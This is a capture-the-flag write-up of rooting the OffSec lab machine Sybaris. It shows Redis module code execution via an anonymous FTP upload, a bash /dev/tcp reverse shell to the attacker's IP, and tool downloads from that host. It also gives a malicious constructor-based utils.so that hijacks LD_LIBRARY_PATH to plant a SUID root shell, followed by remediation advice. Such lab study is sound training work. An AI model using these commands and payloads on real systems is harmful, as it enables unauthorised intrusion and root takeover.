# How I Rooted OffSec Sybaris: Redis Module RCE and LD_LIBRARY_PATH Hijacking

> A pure Linux machine compromise through an unauthenticated Redis instance, a custom .so module delivered via anonymous FTP, and a root cron job loading a hijacked shared library from a world-writable directory.

---

## Machine Overview



Sybaris is an Intermediate-rated Linux machine on OffSec Proving Grounds that covers multi-service enumeration, cross-service attack chaining, and a shared library hijacking privilege escalation.

The machine exposes five meaningful services but only two matter. Port 80 is a deliberate rabbit hole - a default HTMLy blog with no exploitable path. The actual attack vector requires connecting two services that look unrelated at first: an anonymous FTP server with a writable `/pub` directory and an unauthenticated Redis instance. Uploading a compiled Redis module via FTP and loading it through the Redis CLI achieves code execution as `pablo`. Privilege escalation exploits a world-writable directory in the system `LD_LIBRARY_PATH` - a root cron job loads `utils.so` from a directory you can write to, so a malicious shared library with a constructor attribute executes the moment the job fires.

## Summary of Findings

| # | Vulnerability | Severity | CVSS Score |
|---|---------------|----------|------------|
| 1 | Unauthenticated Redis with no access control | Critical | 9.8 |
| 2 | Redis MODULE LOAD enabling arbitrary OS command execution | Critical | 9.0 |
| 3 | World-writable directory in system LD_LIBRARY_PATH | High | 7.8 |

**Rationale for scores:**

- **9.8 Critical** - Redis on port 6379 accepts connections and commands from any host with no authentication required. Any remote attacker can interact with the full Redis API including loading modules. AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H.
- **9.0 Critical** - The Redis `MODULE LOAD` command loads arbitrary `.so` files and exposes their exported functions as Redis commands. Combined with anonymous FTP write access to a path reachable by Redis, this gives unauthenticated remote code execution. AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:L.
- **7.8 High** - `/usr/local/lib/dev` appears in the system `LD_LIBRARY_PATH` and is writable by all users. A root cron job runs `/usr/bin/log-sweeper` which fails to load `utils.so` from this path. Dropping a malicious `utils.so` with a constructor function executes as root the next time the job fires. AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H.

**Techniques covered:**
- Full port scan with `--min-rate` for OSCP time efficiency
- Multi-service enumeration and attack surface triage
- Anonymous FTP enumeration and write access testing
- Redis unauthenticated access verification
- Redis module compilation with include fixes
- Redis `MODULE LOAD` for arbitrary command execution
- Reverse shell delivery and upgrade
- LinPEAS privilege escalation enumeration
- pspy64 cron job discovery
- `ldd` shared library dependency analysis
- LD_LIBRARY_PATH shared library hijacking
- C constructor attribute for library load-time execution

This machine is a good example of why service enumeration should be exhaustive before committing to one attack vector - the web service is a deliberate rabbit hole and the actual path requires two services working together.

---

## Reconnaissance

### Port Scan

```bash
nmap -p- 192.168.218.93
```



| Port | Service | Notes |
|------|---------|-------|
| 21 | FTP | vsFTPd 3.0.2 |
| 22 | SSH | OpenSSH 7.4 |
| 80 | HTTP | Apache 2.4.6, PHP 7.3.22 |
| 6379 | Redis | Redis key-value store 5.0.9 |

---

## Enumeration

### FTP - Anonymous Access

First thing to test on any FTP service is anonymous login:

```bash
ftp 192.168.218.93
```

```
Name: anonymous
Password: (blank)
230 Login successful.
```



Directory listing shows one directory: `pub`. It is empty. The important thing to verify immediately is whether we can write to it - anonymous FTP that only allows reads is not useful:

```bash
ftp> cd pub
ftp> put test
```



Write confirmed. Files placed in `/pub` land at `/var/ftp/pub/` on the server - a standard vsFTPd path.

Note: attempting to write to the FTP root directory itself returns `553 Could not create file`. Only `/pub` is writable.

### Web - Port 80 (Rabbit Hole)

Apache is serving an HTMLy v2.7.5 blog. Gobuster found the `/admin` and `/login` directories but nothing exploitable:

```bash
gobuster dir -u http://192.168.218.93 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt,conf,bak,zip,sql,sh,xml
```



The sitemap.xml returns empty entries. The login page at `/login` exists but with no known credentials and no enumeration vector it is not the right path when other services remain unexplored. Port 80 is deprioritized.

### Redis - Unauthenticated Access

```bash
redis-cli -h 192.168.218.93
```

```
192.168.218.93:6379> PING
PONG
```



No authentication prompt - full Redis API access as an anonymous connection.

---

## Initial Access - Redis Module RCE via FTP Delivery

### Connecting FTP Write Access to Redis MODULE LOAD

With an anonymous FTP writable directory and an unauthenticated Redis instance, the attack surface becomes clear. Redis supports loading custom `.so` modules at runtime via `MODULE LOAD /path/to/module.so`. If Redis can reach `/var/ftp/pub/` - the standard vsFTPd path - then uploading a compiled module via FTP and loading it through Redis gives arbitrary command execution.

This technique is documented on HackTricks under Redis pentesting: https://hacktricks.wiki/en/network-services-pentesting/6379-pentesting-redis.html - specifically the "Load Redis Module" section. The key condition is that you need a way to get the `.so` file onto the server - anonymous FTP with write access satisfies this exactly.

### Step 1 - Compile the Redis Command Execution Module

Clone the exploit module on Kali:

```bash
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
cd RedisModules-ExecuteCommand/src
```

The module does not compile cleanly - two includes are missing. Open `module.c` and add at the very top:

```c
#include <string.h>
#include <arpa/inet.h>
```

These fix `strlen`/`strcat` implicit declaration errors and the `inet_addr` warning. Then compile:

```bash
make
```



This produces `module.so` in the current directory.

### Step 2 - Upload via FTP

```bash
ftp 192.168.218.93
ftp> cd pub
ftp> put module.so
ftp> bye
```



### Step 3 - Load the Module via Redis

```bash
redis-cli -h 192.168.218.93
MODULE LOAD /var/ftp/pub/module.so
```



`OK` - the module is loaded. Verify command execution:

```
system.exec "whoami"
"pablo\n"
```



### Step 4 - Reverse Shell

Start a listener on Kali:

```bash
nc -lvnp 4444
```

Trigger the reverse shell through Redis:

```
system.exec "bash -c 'bash -i >& /dev/tcp/192.168.45.207/4444 0>&1'"
```

No callback. Tried port 80 as well - same result. The firewall is blocking outbound connections on non-service ports. The reliable workaround is to use the port the service itself is already listening on - since Redis is running on 6379, outbound connections on that port are permitted. Start the listener on 6379 instead:

```bash
nc -lvnp 6379
```

```
system.exec "bash -c 'bash -i >& /dev/tcp/192.168.45.207/6379 0>&1'"
```



Shell received as `pablo`.

---

## Privilege Escalation - LD_LIBRARY_PATH Hijacking

### Enumerating with LinPEAS

Transfer and run LinPEAS:

```bash
# On Kali
python3 -m http.server 80

# On target
wget http://192.168.45.207/linpeas.sh -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh
```

LinPEAS highlights two findings in yellow-red in the crontab section:

```
LD_LIBRARY_PATH=/usr/lib:/usr/lib64:/usr/local/lib/dev:/usr/local/lib/utils
MAILTO=""

*  *  *  *  * root    /usr/bin/log-sweeper
```



Two questions to answer: is `/usr/local/lib/dev` writable, and what library does `log-sweeper` need?

### Checking Directory Permissions

```bash
ls -la /usr/local/lib/dev
ls -la /usr/local/lib/utils
```

```
drwxrwxrwx  2 root root  6 Sep  7  2020 /usr/local/lib/dev
drwxr-xr-x  2 root root 22 Sep  4  2020 /usr/local/lib/utils
-rwxr-xr-x  1 root root 8248 Sep  4  2020 /usr/local/lib/utils/utils.so
```



`/usr/local/lib/dev` is world-writable. `/usr/local/lib/utils` is root-owned. The dynamic linker searches `LD_LIBRARY_PATH` left to right - `/usr/local/lib/dev` is checked before `/usr/local/lib/utils`.

### Confirming the Missing Library

```bash
/usr/bin/log-sweeper
```

```
/usr/bin/log-sweeper: error while loading shared libraries: utils.so: cannot open shared object file: No such file or directory
```



`log-sweeper` needs `utils.so`. There is no `utils.so` in `/usr/local/lib/dev`. Placing a malicious `utils.so` there means the linker finds ours before the legitimate one in `/usr/local/lib/utils`.

### Confirming the Cron with pspy64

```bash
wget http://192.168.45.207/pspy64 -O /tmp/pspy64
chmod +x /tmp/pspy64
/tmp/pspy64
```



`/usr/sbin/crond -n` fires every minute running `/usr/bin/log-sweeper` as root. Verified with:

```bash
ldd /usr/bin/log-sweeper
```

Confirms `utils.so` as a required dependency with no path found.

### Compiling the Malicious Library

Write and compile directly on the target in the writable directory:

```bash
cat > /usr/local/lib/dev/libpayload.c << 'EOF'
#include <stdlib.h>
#include <unistd.h>
__attribute__((constructor))
void init_plugin() {
    setuid(0);
    setgid(0);
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash");
}
EOF

gcc -fPIC -shared -o /usr/local/lib/dev/utils.so /usr/local/lib/dev/libpayload.c
```



`__attribute__((constructor))` tells the compiler to execute `init_plugin` automatically when the library is loaded - no function call from the binary required. `-fPIC` generates position-independent code required for shared libraries. `-shared` produces a `.so` instead of an executable.

### Getting Root

Wait up to one minute for the cron to fire. When `log-sweeper` loads our `utils.so`, the constructor runs as root and copies bash with the SUID bit set:

```bash
ls -la /tmp/bash
/tmp/bash -p
whoami
root
```



---

## Vulnerability Analysis

---

### Unauthenticated Redis Instance

**Severity:** Critical
**CVSS Score:** 9.8

**Description:** The Redis service on port 6379 accepts connections and commands from any host with no authentication required. Any remote attacker has full access to the Redis API including administrative commands such as `MODULE LOAD`, `CONFIG SET`, and `DEBUG`.

**Root Cause:** Redis was deployed without a `requirepass` directive in the configuration file. Redis does not enforce authentication by default - explicit configuration is required. The service is also bound to `0.0.0.0` making it network-accessible rather than localhost-only.

**Impact:** Any attacker who can reach port 6379 has full control over the Redis instance and can leverage it for further exploitation, including loading malicious modules for OS command execution.

**Remediation:**
- Set `requirepass` in `/etc/redis/redis.conf` with a strong randomly generated password
- Bind Redis to `127.0.0.1`: `bind 127.0.0.1`
- Firewall port 6379 to block all external access at the network level

---

### Redis MODULE LOAD Enabling Arbitrary OS Command Execution

**Severity:** Critical
**CVSS Score:** 9.0

**Description:** Redis supports loading custom `.so` modules at runtime via `MODULE LOAD /path/to/module.so`. A compiled module exposing a `system.exec` command allows execution of arbitrary OS commands with the privileges of the Redis process. Combined with anonymous FTP write access to a server path reachable by Redis, any unauthenticated attacker achieves remote code execution.

**Root Cause:** No `rename-command MODULE ""` directive was used to disable `MODULE LOAD`, and the Redis process can read from `/var/ftp/pub/` - the anonymous FTP writable directory. The two misconfigurations chain directly.

**Impact:** Unauthenticated remote code execution as the user running Redis (`pablo`). The attack requires no credentials - anonymous FTP delivers the file, anonymous Redis loads it.

**Remediation:**
- Disable `MODULE LOAD` if custom modules are not required: add `rename-command MODULE ""` to redis.conf
- Authenticate Redis with a strong password to remove anonymous access
- Restrict FTP anonymous write access or disable anonymous FTP entirely
- Run Redis as a dedicated low-privilege account isolated from other services

---

### World-Writable Directory in System LD_LIBRARY_PATH

**Severity:** High
**CVSS Score:** 7.8

**Description:** The system `LD_LIBRARY_PATH` includes `/usr/local/lib/dev` with permissions `777`. A root-owned cron job runs `/usr/bin/log-sweeper` every minute, which depends on `utils.so`. Because `/usr/local/lib/dev` appears before the legitimate library path in `LD_LIBRARY_PATH`, placing a malicious `utils.so` there causes the dynamic linker to load it as root.

**Root Cause:** The directory was left world-writable - likely a development path never locked down before deployment. `LD_LIBRARY_PATH` entries are searched left to right, so a writable directory earlier in the path takes priority over legitimate library directories.

**Impact:** Any local user can escalate to root by placing a malicious shared library in the writable directory and waiting for the next cron cycle - up to one minute.

**Remediation:**
- Remove world-write permission: `chmod 755 /usr/local/lib/dev`
- Audit all directories in system `LD_LIBRARY_PATH` for non-root write permissions
- Remove development paths from production `LD_LIBRARY_PATH` settings
- Scope cron jobs running as root to the minimum required privileges

---

## What I Learned

**Service combination is the skill, not individual service exploitation.** FTP anonymous write access and unauthenticated Redis each look like partial findings in isolation. The attack path only becomes clear when you recognize that FTP delivers files to a path that Redis can load from. Enumerating both services fully before committing to an attack is what allows that connection to form.

**Triage correctly and move fast.** Port 80 had a login page and a CMS - enough to sink an hour into with no result. The right call was a quick gobuster pass, verify nothing obvious, and move on. Under OSCP time pressure, committing to a rabbit hole because it looks familiar is how people fail.

**LD_LIBRARY_PATH writable directories are a high-value privesc signal.** When LinPEAS highlights a directory in `LD_LIBRARY_PATH` in yellow-red, check write permissions immediately. A writable entry earlier in the path than the legitimate library location is game over if any privileged process loads that library.

**The constructor attribute is required when the binary does not call your function.** `log-sweeper` loads `utils.so` as a dependency but calls nothing from it. A normal exported function would never execute. `__attribute__((constructor))` fires at load time before any binary code runs - this is not optional when the binary does not call into your library.

**pspy64 and ldd together tell the full story.** pspy64 shows what runs as root. ldd shows what shared libraries it needs. When those two findings intersect with a writable `LD_LIBRARY_PATH` directory, the privesc writes itself.
